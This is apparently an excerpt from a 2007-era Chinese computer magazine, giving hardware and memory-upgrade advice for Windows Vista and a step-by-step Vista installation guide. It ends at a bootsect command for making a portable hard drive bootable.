## 四、流媒体本地保存——影音传送带 Net Transport

## 五、懒人自有高招——直接使用“屏幕录像专家 7.0”

## 六、献给钟情电视的朋友——乐酷网络电视录像机 1.2.0007 正式版

# 373 网络数据库安全应用完全攻略

## 一、网络数据库应用中存在的主要威胁

## 二、以数据库安全为核心的防范策略

## 三、数据库安全应用典型案例

# 380 精彩“盘”点：网络 U 盘使用教程

## 一、谁与争锋：专业网站提供的网络 U 盘

## 二、自成一体：大型门户网站提供的网络 U 盘

## 三、巧借外援：利用第三方工具变邮箱为网络 U 盘

# 386 由零晋身 200% 网络打印组建高手

## 一、四通八达、便捷高效的网络打印机

## 二、从 PC 通往打印机的高速公路

## 三、网络打印三步曲——网络打印设备安装

## 四、生活更轻松、办公更简单——无线打印全攻略

# 迎接Windows Vista时代——PC配置与内存扩容指引

文 / 阿亮

Windows Vista 操作系统的到来，对所有准备近期购买或是升级 PC 的消费者来说，都是不可忽视的一件大事。新买的 PC 能否在 Vista 系统下流畅运行，相关的硬件配置是否能够达到 Vista 的完美支持，这些都是非常关键的问题。毫无疑问，盲目地采购与升级，并不能帮助大家在 Vista 操作系统下获得理想的表现，我们需要在深入了解 Vista 的基础上，对硬件产品做出理智的分析。

Vista 居然对 CPU 的性能要求很低，即便是 Vista Premium Ready 也只需要 1GHz 的 CPU。

事实上，这仅仅是微软善意的提醒。如果真想在 Vista 操作系统中获得比较理想的表现，那么采用主流双核 CPU 还是非常有必要的。Vista 真正的意义并不仅仅是在于操作系统，而且引领着未来应用软件的发展趋势。

即便是最常见的应用场景中，我们也能充分感受到双核所带来的好处。很多用户都喜欢一边 BT 下载一边玩游戏，通常这时会感觉到游戏速度明显变慢。不要简单地以为 BT 下载软件仅仅占用硬盘，它对于 CPU 的占用率也同样不小。如果能够启用双核处理器，那么一切问题都将迎刃而解。同样的例子还有一边玩游戏一边听音乐，甚至一边进行视频压缩等高消耗应用一边上网聊天等。双核处理器带给我们的是真正自由的应用模式，不必担心某个程序耗尽系统资源而束缚其它应用。

更为重要的是，未来的操作系统与应用软件也将针对双核进行充分优化，因此其应用价值是毋庸置疑的。尽管目前很多测试软件中无法显示出双核处理器的优势，但是请不要怀疑这一发展趋势，尤其是 Vista 对于双核时代的推动力。

此外，很多应用中的实际体验，是普通性能测试软件无法体现的。以目前支持双核的 Maya、3DS Max、Cinema 4D、Truespace、AutoCAD、SoftImag、LightWave 3D、QuakeIII 等应用软件为例，双核所带来的性能增长是显而易见的。随着 Intel 和 AMD 纷纷进入双核时代，未来 Vista 操作系统和应用软件充分为双核进行优化也将是必然的趋势，这也是最坚不可摧的应用基石（见图 2）。

## 一、迎接Vista时代：CPU、内存和显卡是关键

几年前，当 Windows XP 即将发布之际，几乎所有人都在诟病其近乎疯狂的硬件配置需求。在 Windows XP 正式普及之后，我们又发现其实一切并不如我们想象中那样可怕。只要保证一定的内存容量，即便是 Pentium III 也能比较流畅地运行。现在， Windows Vista 又开始了一个新的轮回，当我们惊慌失措地准备升级硬件时，有没有仔细考虑过到底什么样的配置才是最合适的呢？

### 1. CPU：投入双核心怀抱

微软在2006年11月6日正式公布了 Windows Vista 对硬件配置要求的最终版本。根据配置规格和功能范围的不同，Vista 的硬件要求可以划分为两个级别。其中，达到 Windows Vista Capable PC 标准的电脑，能够运行 Windows Vista Home Basic 系统的基本功能，而达到 Windows Vista Premium Ready PC 标准的电脑，不仅能够获得 Windows Vista Home Basic 系统的高级功能体验，同时还可以运行更高版本的 Windows Vista 系统（见图 1）。非常让人意外的是，





### 2. 内存：薄弱环节不可忽视

从一些测试情况来看，Vista 对于内存容量的需求是最为迫切的。目前，512MB 内存才刚刚普及，但它在 Vista 面## Vista 完全攻略

前完全是杯水车薪，很容易造成性能瓶颈。Vista 为什么会消耗那么高的内存? 大家在进程管理器中查看一下就完全明白了。绚丽的3D 桌面进程 dwm.exe 占用100M 内存; IE 7.0 消耗90M 内存，如果多开几个窗口浏览文件，IE 7.0 可能还会增加更多内存; 还有 Vista 独特的侧边栏又会吃掉30M 左右。如果再加上杀毒软件、防火墙、后台常驻程序等，其消耗量的确是惊人的。

如同以前我们建议运行 Windows XP 至少需要512MB 一样，现在要流畅运行 Windows Vista，1GB 也仅仅是及格线。如果想要达到更为理想的效果，2GB 将会是比较理想的选择。此外，我们还发现 Windows Vista 对于内存是“重量不重质”。在运行一些性能测试软件时，大家可能发现更大的内存容量没有明显效果，反倒是高频率内存或是高等级时序参数带来极大的帮助。可是对于 Windows Vista 来说，内存频率和时序参数并不是非常敏感，而满足容量需求才是根本。其实，出现这样的结果也并不让人感到意外，毕竟只有在满足容量需求的情况下，内存频率和时序参数才会变得真正有意义（见图3）。



### 3. 显卡：支持 DirectX 9 API 即可

Windows Vista 操作系统已经开始应用，而我们所期待的并不仅仅是 Vista 的华丽界面，更看重与 Vista 相辅相成的 DirectX 10 所带来的革命性 3D 技术。Windows Vista 是第一款用户可以根据硬件配置而合理伸缩的弹性化操作系统。既然 Vista 已经在操作界面实现了 3D 化应用，它在真正的 3D 技术方面的改进幅度也就可想而知。如果说以往 DirectX 是 Windows 的 3D 应用接口补充，那么与 Vista 同时代的 DirectX 10 显然已经彻底融入操作系统，成为 Vista 不可分割的一部分（见图 4）。



在整个 DirectX 10 架构体系中，先进的统一渲染架构无疑是巨大的亮点。但是客观而言，主流显卡还没有做好准备。面对由 DirectX 9 向 DirectX 10 过渡的真空期，我们在选购显卡时应该保持一份理智。既然 Vista 3D 应用界面只要求普通支持 DirectX 9 API 的显卡即可，那么选择主流显卡应该都是可行的，具体购买什么档次的独立显卡，取决于大家是否需要玩一些大型 3D 游戏。此外，如果集成显卡能够很好地支持 DirectX 9 API，也将是非常超值的选择，并且额外的显卡接口还可以为今后升级到 DirectX 10 显卡留下充足的空间。

对于用户而言，最终选择哪一种平台来迎接 Vista，这是最核心的问题。随着 AMD 收购 ATI，如今两大巨人都已经拥有完整的平台整合能力，重量级的对抗自然更加引人入胜。

## 二、平台分析：Intel Vs AMD

### 1. AMD 打出性价比之牌

除了“扣肉”（酷睿）以外，Intel 目前规划的双核处理器很多，包括 Pentium Extreme Edition 和 Pentium D 等等。除了 Core 架构以外，Intel 的双核一直饱受争议，原因便是其实质上仅仅是封装了两个独立的内核，互相之间的数据传输甚至还需要通过外部总线，这令效率大幅度降低。目前，Intel 的双核只能在部分应用程序发挥作用，因此也没有必要一味追捧，而且 Pentium 所基于的 NetBurst 效率实在是太低，这种低效双核并非用户真正需要的。

反观 AMD，Athlon 64 X2 的双核在效率方面与 Intel Core 架构基本同级别，因此面对 Pentium D 的竞争时显得非常轻松。以性价比出色的 Athlon 64 X2 3600+ 为例，虽说二级缓存容量并不大，可是流水线效率以及核心架构显然更加重要，所以其表现非常强悍，以压倒性优势战胜 Pentium D。同样，千元级的 Athlon 64 X2 3800+ 也有不错的性价比，而这一价位正是 Intel 的断档——酷睿 2 价格高高在上、发热量较高的 Pentium D 又难堪重任。

另外，高性能的单核 CPU 仍然是不错的选择。尽管我们一再强调 Vista 时代购买双核 CPU 是明智的，可是只要单核 CPU 性能出色，依然是不错的性价比之选。目前，Intel CPU 分为 Pentium 4 Netburst 架构和 Core 架构，而后者并没有衍生出单核产品，这导致其在与 AMD 的中低端市场竞争中节节败退。当 AMD 统一 Socket AM2 平台之后，闪龙以及单核 Athlon 64 的表现都可圈可点（见图 5）。

### 2. 芯片组平台全面火拼

Intel 的 Pentium 4 Netburst 架构和 Core 架构显然令用户对芯片组的选择变得非常困难，毕竟拉长产品线之后，芯片组厂商也不得不疲于奔命。以 Pentium 4 Netburst 架构为例，尽管 I945 系列依然不错，可是留给用户的选择余地实在不大，其它芯片组厂商也对其态度暧昧。在 Intel 基本放弃低端芯片组业务之后，主流用户已经感到前所未有的尴尬。一方面，适合酷睿 2 的 P965 主板价格不菲，而另一方面，其它芯片组厂商并未推出价格合适的高性能芯片组，直接导致青黄不接。

AMD 方面的情况则截然相反。在 Socket AM2 接口统一之后，用户选择芯片组和主板变得空前容易。AMD-ATI 和 NVIDIA 都为用户提供了充裕的选择空间，无论是独立芯片组还是整合芯片组，其表现都丝毫不逊于 Intel 平台。此外，VIA 和 SiS 也是 AMD 平台最主要的芯片组供应商，其 K8T890 和 SiS 771 都有不错的性价比优势。不可忽视的是，AMD 的 K8 处理器已经内置内存控制器，所以芯片组设计难度和成本大幅度降低，也不会出现低端芯片组严重影响性能发挥的情况，这也是当前 AMD 平台的一大优势（见图6）。



### 3. 集成显卡出奇制胜

对于用户而言，选择集成显卡是提高性价比的一条捷径，当前不少集成显卡的确能够在 Vista 操作系统中发挥不错的性能。Intel 的集成显卡主要是 I945G 中的 GMA950 以及 G965 中的 X3000，但是，毕竟 Intel 在显卡领域不是掌握技术主导，因此综合表现并不理想。相对而言，AMD 690G 无疑是近期最热门的整合芯片组（见图7）。



AMD 690G 的显示核心 Radeon Xpress 1250 由支持 DirectX 9 的 Radeon X700（RV410）衍生而来，内置 4 条像素渲染管线，共享系统内存作为显示内存。这种显示核心虽然不能支持 Shader Model 3.0 最新特性，但是更高的主频以及双倍于 NVIDIA C51/C61 的像素渲染管线确实有最大的优势。Radeon Xpress 1250 不仅能够在 Vista 操作系统下很好地以 DirectX 9 API 来支持 3D 界面，而且其本身的 3D 游戏表现也相当不错。事实上，Radeon Xpress 1250 非常接近于 X550XT，这款独立显卡被称为“四管线版本的 X700”。

对于集成显卡而言，最大的性能瓶颈绝非 Shader Model 3.0 或是 HDR 等特效，而是较少的管线数量以及较低的频率，同时视频优化技术往往比较薄弱。但是，AMD 690G 所集成的 Radeon Xpress 1250 则给了我们巨大的惊喜。这款集成显卡不仅以高主频的四管线实现不俗的性能，而且还支持 AVIVO 视频技术和 HDMI 高清接口。此外，AMD 690G 采用 80nm 制造工艺。对于同等级的集成显卡来说，采用 80nm 制造工艺的显卡性能会更强。80nm 制造工艺还拥有低功耗、发热量低等诸多特色，其强大的超频能力特别值得我们关注，由于发热量比较低，因此即便超频也无需北桥散热系统。

#### 小提示：集成显卡要注重实际表现

尽管如今很多集成显卡号称支持 SM 3.0 甚至 DirectX 10，但是平心而论，集成显卡毕竟是高性价比解决方案，因此追求所谓的 3D 特效并没有实际意义。如果连最起码的速度都保证不了，那么 3D 特效反而成为拖累。目前，AMD 690G 所集成的 Radeon Xpress 1250 显然深谙此道。在通过 DirectX 9 API 满足 Vista 3D 界面之后，以高频率的四管线以及高效率的显存优化技术实现更加理想的速度表现，这也是当前速度最出色的集成显卡之一。

## 三、Vista 时代的品牌机选购：轻认证重配置

2006年11月，为了宣传新一代 Windows Vista 操作系统，微软在中国区域召集了惠普、同方、宏碁、华硕、明基、戴尔、方正、长城等17家PC厂商共同推广，正式推出了多款“Windows Vista Capable PC”。进入2007年之后，市场上已经可以看到不少拥有 Vista 认证的品牌机出现。微软对 Vista 硬件配置的要求其实非常宽松，其中 CPU 只要求拥有 800MHz 以上主频即可，而 512MB 内存以及支持 DirectX 9 显卡也都算不上特别高的要求。按照业内人士的说法，现在任何品牌机只要采用常规的硬件配置，然后缴纳一定的费用，就可以轻轻松松在主机上贴上“Windows Vista Capable”标签了。

### 1. 配置比认证更重要

事实上，要想获得“Windows Vista Capable”的认证，除了要达到微软对硬件配置的要求外，还必须通过非常严格的 WHQL 认证测试。所谓的 WHQL 认证，基本都是相关硬件厂商的重任，和品牌机厂商没有太大关系。以我们在市面上所能买到的品牌机为例，由于所采用的配件比较固定，而且主流配件厂商至少都会推出一款通过 WHQL 认证的驱动程序。客观来看，“Windows Vista Capable”认证的价值，在于帮助大家购买到拥有 DirectX 9 显卡以及至少配备 512MB 内存的品牌机，这可以避免因为选择过于低端的配置而在未来的 Vista 主流应用中遭遇尴尬。

平心而论，明智的消费者应该合理地理解 Vista 认证的意义。没有“Windows Vista Capable”认证标签，并不能与在 Vista 中表现不佳划等号。考虑到 Vista 时代的实际应用现状，我们建议大家购买拥有双核功能的 CPU，并且内存容量为 512MB～1GB。此外，应当尽可能选择独立显卡，即便是整合显卡也要求能够实现对 DirectX 9 API 的支持（见图8）。



#### 小贴士：用 Vista 测试报告来检验品牌机

Vista 操作系统集成“Windows 性能评估”测试工具，根据运行 Vista 的流畅程度和利用 Vista 能力的程度对 PC 进行评估，这可谓是大家检验品牌机的法宝。“Windows 性能评估”工具对处理器、内存、硬盘、显卡等组件进行评估，然后给出 PC 的总成绩。需要注意的是，这里的“总成绩”并非是所有测试单元的得分相加，而是由各个测试单元中的最低得分所决定。看来，微软显然深谙“木板原理”，也认为消除硬件配置的性能瓶颈才是关键。

### 2. Vista 宽屏潮流：别被 HDCP 忽悠了

部分品牌机推出了 Vista 专用型号，配备支持 HDCP 功能的宽屏 LCD 显示器，并宣传这将是 Vista 时代的必然之选，因为无法支持 HDCP 功能的产品可能将无法兼容 Vista 操作系统。其实，这完全是一种以讹传讹的误区，消费者对于 HDCP 功能应该保持一份冷静。HDCP 功能虽好，但是这绝非是 Vista 时代所必需的。微软在 Vista 操作系统里推出了一项“保护性内容输出管理协议（OPM）”，它的前身是默默无闻的“输出验证保护协议（COPP）”。这些协议的目的，就是确保计算机显示屏上的显示内容必须得到许可才能被正确地播放出来。COPP 会执行两个基本的检查项目，首先是确认显示器的性能，显示器是否自带“高清数字内容保护协议（HDCP）”；还有就是掌管一切送往显示屏的数字内容。一旦操作系统的 OPM 检测不到符合 HDCP 规范的显示器，而用户正好又要欣赏这些受协议保护的数字内容，会发生两种情况：一是这些受保护的视频内容会以低质量的图像格式播放出来，就像把压缩过头的 JPEG 图片再放大一样；另一种结果就是黑屏，什么都看不到。结合我们的实际国情，其实真正遇到版权保护内容的情况很少。同时，还会涉及到蓝光驱动器以及正版 Vista 操作系统的认证，因此 HDCP 功能并不如大家想象那样重要。总之，不要误以为品牌机配备不支持 HDCP 功能的宽屏 LCD，就无法在 Vista 操作系统下使用，因为这其实并不是最重要。

## 四、为 Vista 做好准备：内存扩容总动员

在迎来 Windows Vista 操作系统时代之后，内存容量变得更为重要。原本 Windows XP 的“512MB 温饱线”已经成了过去时，因此扩容内存成为众多用户的升级首选。但是，如何选择最佳的平衡点，以及为双通道和兼容性做好准备，是值得仔细考虑的问题，我们将针对内存插槽数量不同的情况为大家分类介绍。

### 1. 2 根内存插槽的主板

为了节省成本，很多主板采用 MicroATX 设计，并且只有两根内存插槽，此时扩容内存的方案也相对简单。到目前为止，主流主板几乎无一例外地支持双通道技术，因此在条件允许的情况下，为只拥有两根内存插槽的主板实现双通道内存是必然的选择。

#### （1）双通道主板

对于采用整合芯片组并且支持双通道内存技术的主板，激活双通道是必然的选择。由于集成显卡此时共享内存，因此双通道等效于显存带宽加倍，对于提高 3D 速度有着很大的帮助。从 I865G 开始，所有的 Intel 整合芯片组都支持双通道内存，在扩容内存时自然不能放弃这一至关重要的技术。要提醒大家的是，使用双通道内存时，最好选用相同品牌与型号的产品，甚至推荐专用的套装内存。如果当前只有 256MB 内存，那么另外添加相同品牌与型号的 256MB 内存是比较理想的选择，可以顺利运行 Windows XP 操作系统。但是，倘若主板配置已经是 I915G 以上，那么 512MB 内存就显得太过寒酸，建议大家将 256MB 内存卖出，考虑购买两条 512MB 内存并开启双通道。对于已经拥有两条 256MB 内存的用户来说，其面临的选择是最为艰难的。由于内存插槽已经被用满，所以几乎无法升级。假如在使用一些应用程序或是操作系统明确要求 1GB 内存时，可以考虑将 2 根 256MB 内存卖出，然后另外买入 2 根 512MB 内存。

-   值得升级指数：★★★★★
-   内存扩容要点：确保双通道模式的前提下扩容内存

#### （2）单通道主板

假如主板并不支持双通道，而大家已经配备了两条 256MB 内存，完全可以考虑将其卖出，再购买一条 1GB 内存。之所以不选择两条 512MB 内存，是为了给今后留下扩充空间，而且一条内存比两条内存更加稳定，尤其是 AMD K8 平台。以 Socket 754 平台的 K8T800、nForce3 以及 nForce4 为例，不少主板都只拥有两个内存插槽，建议大家不要盲目使用两条内存，不然内存将被迫工作在 2T 模式下，内存单元的性能要比 1T 模式降低不少。此外，AMD K8 平台比较“挑内存”，因此尽量选择主流品牌，尤其要避免使用那些廉价的“补位”内存。

相对而言，以往的老式芯片组就没有那么多限制。以 KT600/400A 以及 I845D/E/PE 为例，在使用两条内存时往往能够顺利兼容，一般只要保证内存的 CL 延迟参数相等就可以，即便是 CL 延迟参数不同，也只要降低参数级别就可以顺利兼容。在这种情况下，强烈建议至少添加 512MB 内存。如果本来就拥有 256MB～512MB，那么升级至 768MB 或是 1GB 都是很不错的平衡点。

-   值得升级指数：★★★★
-   内存扩容要点：尽可能保证内存 CL 延迟参数相同

##### 小贴士：特殊的 I915PL 主板

由于 I915PL 芯片组内存控制器的每个通道只能支持 8 Bank，因此用户只能使用两条 4 Bank 的单面内存或者是一条双面 8 Bank 的内存。如果大家已经在 I915PL 主板上使用了双面内存，在扩充内存时必须非常小心。虽说单面内存并不等于单 Physical Bank 内存，而双面内存并不等于双 Physical Bank 内存，但是一般市面上单面内存多是单 Physical Bank 内存，双面内存多是双 Physical Bank 内存。因此，在 2 根内存插槽的 I915PL 主板上，如果已经使用双面内存，最好卖掉之后重新配置两条单面内存。

### 2. 3 根内存插槽的主板

与只有 2 根内存插槽的主板相比，拥有 3 根内存插槽的主板在扩充内存时就要复杂得多。根据主板是否支持双通道，我们需要进行针对性的决策。此外，并非每一种主板都能支持不同规格的 3 条内存，其中的兼容性问题也是需要重点关注的。

#### （1）Socket 754 主板

目前，采用 3 根内存插槽而不支持双通道技术的主板几乎只有 Socket 754 平台，其他则是 KT400/600 以及 I845 系列等老一代产品。对于 KT400/600 以及 I845 系列，由于芯片组对内存的兼容性比较好，因此完全可以大胆扩充，主要确保内存芯片尽量是相同品牌即可。但在使用 Socket 754 主板时就必须格外小心。

AMD Socket 754 平台对于内存搭配的敏感性较高。在实际应用中，AMD 还对内存模组做了一定的限制。首先 AMD 在产品的白皮书中表明，在单通道的 64 bit 模式下，最多可以支持 2 个 DIMM 模组。也就是对于集成了单通道内存控制器的 Socket 754 处理器，最多只能安装两条双面内存，或者两条单面加一条双面内存（即内存的总面数不得超过 4）。所以，各位使用 Socket 754 主板的升级用户，千万别盲目插三条双面内存上去，这样肯定无法兼容。

其次，由于 K8 处理器在设计时的某些特殊原因，即使安装的内存条在规格上符合以上要求，也未必能在理想状态下运行。以 Socket 754 平台为例，当安装内存组的 Rank 总数大于等于 4，或者是插满了 3 个内存槽的情况下，内存组会被迫以低一档的时钟频率来运行（即 DDR400 的内存条将运行在 DDR333 的状态下）。

-   值得升级指数：★★★★☆
-   内存扩容要点：避免超出 K8 内存控制器限制，并且尽可能使用大容量单条内存

#### （2）支持双通道的主板

采用 3 个内存插槽并且支持双通道的主板，现在几乎已经彻底退出市场，但是当年 nVIDIA nForce2 以及 VIA KT880/PM880 却普遍采用这种规格的内存插槽搭配。需要明确告诉大家的是，双通道内存并不一定要求双数内存条才能发挥作用，这类主板在安装三条内存时也能实现双通道，并不会有任何兼容性问题。因此，如果大家现在已经使用两条 256MB 内存组成双通道，完全可以再添加一条 512MB 内存，构成 1GB 内存。不过，在安装内存时需要注意一个小细节：512MB 必须安装在独立的通道（一般与两个相邻内存插槽隔开），而另外两根 256MB 内存安装在一个通道中（一般两个内存插槽连在一起）。

-   值得升级指数：★★★☆
-   内存扩容要点：使用三条内存开启双通道是最简明的扩容策略

##### 小贴士：如何确认双通道模式激活

一般来说，当主板安装好双通道内存后，系统会直接打开双通道内存模式，并且在开机过程中给出提示。此外，部分主板的 BIOS 支持双通道功能控制，一般其表述为“DDR Dual Channel Function”，设定为“Disable”代表禁用双通道。

### 3. 4 根内存插槽的主板

一般而言，拥有 4 根内存插槽的主板都支持双通道内存技术，在扩充内存时会非常方便。根据需要，大家可以成对添加内存，分别安装在对应的内存通道中，这样即便后续添加的一对内存和原来的内存芯片型号不一致，也基本不会影响兼容性。当然，在条件允许的情况下，使用完全一致的内存条是更加理想的选择。鉴于很多用户使用两条 256MB 或是两条 512MB 内存开启双通道，因此升级时可以考虑再购买两条 512MB 内存。只要内存容量不超过 2GB，在 Windows XP 和 Vista 操作系统下就不会造成内存浪费。

针对拥有 4 根内存插槽的主板，我们在扩容内存的过程中更多的焦点还在于避免兼容性问题。以 Socket 939/AM2 平台为例，尽管在双通道的 128 bit 模式下最多可以支持 4 个 DIMM 模组（即 4 条双面内存），但此时内存必然出现降频情况。为改善这一情况，AMD 在 K8 处理器中增加了 2T 内存延迟参数，以提高对内存的兼容性。

不过，2T 延迟参数并不能解决所有降频情况，并且系统工作在 2T 模式下时整体性能会有比较明显的下降。因此，建议大家在升级时尽量购买单条容量较大的内存，减少内存条数，这样可以在很大程度上避免兼容性问题和出现降频情况。

最后，大家还要注意极少数拥有 4 根内存插槽的 I945PL 主板。这类主板受到芯片组的限制，最多只能安装 4 根单面内存条，而且无法兼容少数 1GB 的单面内存条。事实上，我们认为即便是拥有 4 根内存插槽的主板，也要尽可能减少内存条的数量，这对于提高系统稳定性总是有帮助的。

-   值得升级指数：★★★☆
-   内存扩容要点：推荐添加一对 512MB 内存

# Windows Vista 安装攻略

文/王志军

相信当你看到本文时，微软倾十年研发时间、耗资五十亿美元的下一代操作系统 Windows Vista 早已是铺天盖地，无论是发烧友或是普通用户，又怎能错过这一划时代的操作系统？即使你使用的是随品牌机预装的 Windows Vista，也难免会有重装系统的时候。适当了解 Windows Vista 的安装进程，相信对你会是有所帮助的（以下均将“Windows Vista”简称为“Vista”，不再另行说明）。

## 一、你玩得起 Vista 吗？

需要指出的是，Vista 对硬件的要求非常之高，下面是微软联合英特尔、AMD、ATi、nVIDIA 公布的最低配置要求，朋友们不妨来看一看自己的计算机是否能够满足下一代操作系统的要求：

### 1.最低要求

如果符合下面的这份清单，就是“Windows Vista Capable PC”

- CPU：不低于 800MHz
- 内存：512MB
- 显卡：支持 DirectX 9

### 2.建议要求

前面提到的只是安装 Vista 的最低要求，如果你希望自己的机子能够流畅地运行 Vista，那么还是看一看是否符合下面的建议要求，符合这份清单的就是所谓的“Windows Vista Premium Ready PC”：

- CPU：1GHz，推荐使用双核心处理器和 64 位处理器。
- 内存：1GB
- 图形芯片组：支持 WDDM(Windows Display Driver Model)驱动程序，支持 DirectX 9、Pixel Shader 2.0、32 位的 per-pixel，128MB 显存。
- 光驱：DVD 驱动器
- 网卡：支持 100Mbps，如果是笔记本电脑，必须支持 802.11g 无线网络。

### 3.对内存、显卡的要求

其实，Vista 对硬件的要求主要是集中在内存、显卡两个方面，至于 CPU 的主频，相信时下的主流计算机早已经不再是瓶颈，而大白菜价位的海量硬盘自然也不是问题，你只需要保证为准备用来安装 Vista 的那个分区腾出 15GB 以上的可用空间即可。当然，即使计算机的配置低于微软建议的硬件要求，也并不意味着无法安装和运行 Windows Vista，只不过是某些主题和效果无法显示出来而已，因此大多数用户也无需过度担心。更详细的配置要求可以访问 http://www.microsoft.com/windowsvista/getready/capable.mspx 进行查看。

#### （1）内存

根据微软的建议，512MB 即可满足 Vista 的安装需求，但你可不要轻信这样的承诺，如果你准备安装 Vista，那么 1GB 的物理内存是必不可少的，最好是 2GB 容量，至于更高容量的内存也没有必要，毕竟 32 位的 Vista 最高也只能管理到 3.5GB，除非你安装 64 位的 Vista 才能突破这一限制。

根据大部分用户的试用体验，如果你希望获得流畅的体验，那么 2GB 容量的内存绝对是有必要的，最低限度也必须满足 1GB 的要求。最好的办法当然是从根本上解决问题，但这里要说明的是，如果你使用的是双核心处理器，无论是 Pentium D 这样的老双核，还是 Conroe Duo 这样的新双核，一定要选购双根或四根同品牌、同频率、同容量的“三同”内存，以便组建双通道系统，例如 512 × 2、512 × 4 这一点特别要注意。

假如你非要在一台只有 512MB 内存的机器上体验 Vista，而自己又不想付出代价升级内存或者无法升级，例如使用笔记本电脑的用户，可能笔记本中已经没有了空闲的插槽，那么我们可以准备好一个 1GB 的闪存盘或者移动硬盘、数码存储卡，利用“ReadyBoost”原理在一定程度上实现加速。

#### （2）显卡

128MB 显存的要求比较简单，但是否支持 DirectX 9 就是关键了。按下“Win+R”组合键打开运行对话框，在这里输入“dxdiag”打开 DirectX 诊断工具窗口，切换到“显示”选项卡，在这里可以查看到芯片类型和显存容量，如果是 ATi 芯片的显卡，那么 R9500 以后的显卡才开始支持 DirectX 9；如果是 nVIDIA 芯片的显卡，那么 GeForce5 以后的显卡才开始支持 DirectX 9，这一点务请注意。

## 二、兵马未动，粮草先行

如果你准备在近期对手头的机子进行一次升级，那么不妨安装微软发布的 Windows Vista Upgrade Advisor 进行检测，这个软件的最大作用是可以检测你的计算机能够运行哪个版本的 Vista、能够使用 Vista 中的哪些功能、需要升级哪些硬件，包括软件和硬件两方面，检测完成后会提供一份报告并给出相应的建议。

官方下载地址: http://www.microsoft.com/windowsvista/getready/upgradeadvisor/default.mspx

要求 Windows XP SP2、.NET Framework 1.1、MSXML 4.0，安装后即可使用。

WVUA 检测系统的操作非常简单，运行程序打开向导窗口，单击 "Start System Scan" 按钮，在这里我们可以认真阅读相关的帮助信息。接下来是选择检测项目，如图1所示，在这里总共提供了8个项目，"Strengthen Security" 和 "Search and Organize" 两个项目是针对所有 Windows Vista 版本的，因此已经被设置为强制检测项目，其余6个项目分别对应 Windows Vista Home Premium、Windows Vista Business，当然如果你只使用两个默认的检测项目的话，那么就是针对 Windows Vista Home Basic 进行检测。

图 1

你可以自行决定是否需要进行检测，不过建议尽可能选择所有项目进行检测，选择完检测项目，就可以单击 "Next" 按钮进行检测。几乎是立即就能显示检测结果，分成 Hardware Assessment、Software Assessment 两个部分，前者主要针对硬件，后者主要针对驱动程序，如果所有项目的前面都显示绿色的对勾，说明完全符合 Vista 的要求。

不过，大部分情况下，会有部分项目无法满足 Windows Vista 的苛刻要求，如图2所示，这里出现了很多

图 2

## 三、安装也走不同路

通过前面的介绍，相信朋友们对于自己手头的计算机是否能够顺利安装 Vista，心中应该已经有了一个比较清楚的答案，那么就亲自来走一走安装之旅吧。如果硬件方面没有问题，那么 Vista 的安装过程很快就可以完成，一般不会超过 30 分钟。

### 1. 光盘安装

如果你手头拥有 Vista 的安装光盘，那么只需要将安装光盘放入光驱，然后重新开机引导系统，安装程序会自动启动。如果你准备好了 Vista 的安装镜像，那么可以使用 Daemon Tools 加载镜像文件，安装程序同样会自动加载。Vista 的安装程序非常富有人性化，如果出现任何无法满足 Vista 要求的情况，安装程序都会警示用户并自动采取相应的措施，例如笔记本电脑在未使用外接电源的情况下将无法继续安装，当计算机的物理内存小于 512MB 时也将自动终止安装，当然如果安装分区的可用空间不足时也会自动终止。

#### (1) 确认安装

首先会弹出图3所示的对话框，这里的默认选择是“联机检查兼容性”，如果你担心自己的计算机可能会在 Vista 存在冲突，那么不妨联机检查一番，不过完全没有必要浪费这些时间，直接选择“现在安装”即可。

图 3

#### (2) 确认更新

安装程序会询问是否需要联机以获取安装更新，这也是安装程序推荐的选项，确认后可以联机获取重要更新，包括安全更新、硬件驱动程序等，如果你手头已经准备好相关的硬件驱动程序，那么可以选择“不获取最新安装更新”，毕竟 Vista 对硬件的识别能力是相当出色的。

#### (3) 输入产品密钥

如果你是初次安装 Vista，那么会发现一个不起眼的改进，那就是在输入产品密钥的时候，各段序列号之间的连接符号“-”并不需要手工输入，因为安装程序会自动填充。

#### （4）阅读许可条款
这当然是老生常谈，没什么说的；直接勾选“我接受许可条款”复选框，否则将无法进入下一步。

#### （5）选择安装类型
这一步比较重要，在这里可以选择“升级”或“自定义”，选择前者可以保护你的文件、设置和程序，但要求当前 Windows 所在分区有 8GB 左右的空闲硬盘空间，这是为了备份相关的用户文件，如果这个条件不能得到满足，那么“升级”选项将呈灰色而无法使用。
升级安装由于需要检测系统中已安装软件的兼容性，因此需要相对较长的时间。一般情况下，建议选择“自定义”，这样可以实现 Windows XP/Vista 的双引导系统。

#### （6）选择安装位置
如果选择了“自定义”，接下来会出现一个对话框，在这里可以拖拽右侧的滚动条选择安装分区，注意当然要选择 NTFS 文件系统、空闲硬盘空间超过 20GB 的分区，这样可以免去安装成功后再手工调整硬盘容量的麻烦事。

#### （7）复制文件
从这里开始，Vista 的安装进程才真正启动（见图 4），接下去的步骤就不需要你手工干预了，期间会先后三次重新启动计算机。

图 4

#### （8）设置 Windows
和以往的版本一样，我们仍然需要设置区域、时间、货币类型、键盘布局；需要选择一个用户名和图片；需要设置计算机名称、桌面背景等一系列琐碎事情；设置自动保护，建议选择“使用推荐设置”；需要选择计算机当前的位置，这主要是网络方面的设置，请在住宅、工作、公共场所三者之中作出选择。

#### （9）检测系统
上述工作完成后，安装界面会出现一个“非常感谢”的 Windows Vista 的 LOGO 图片，单击“开始”按钮将自动检测系统，同时会显示相关新功能的介绍，请耐心等待片刻。在短暂的检测之后，会出现登录界面，输入前面设置的密码，就可以进入 Windows Vista 美轮美奂的桌面（见图 5）。

图 5

### 2. 用移动硬盘安装 Vista

如果你手头没有 DVD 光驱，但又希望安装单系统的 Windows Vista，或者是准备在没有配置光驱的笔记本电脑上安装 Vista，而你又不打算添置代价昂贵的外置光驱，那么不妨利用移动硬盘来完成此项工作，相信去借一个移动硬盘不是什么难事。

（1）在另外一台安装了 Windows XP 系统的机子上为移动硬盘上划分出一个 4GB 左右的主分区，你可以通过“计算机管理→磁盘管理”来完成这个任务，右击分区从快捷菜单中选择“将磁盘分区标为活动的”，也可以安装 Norton PartitionMagic 8.0 来代劳。

（2）将 Windows Vista 安装光盘中的内容复制到已激活的主分区中，如果是镜像文件可以通过 Daemon Tools 虚拟后进行复制，这一步可能需要相当的时间。

（3）在运行对话框中输入“cmd”进入命令提示符环境，输入如下命令并运行：
```
x:\boot\bootsect /nt60 x:
```
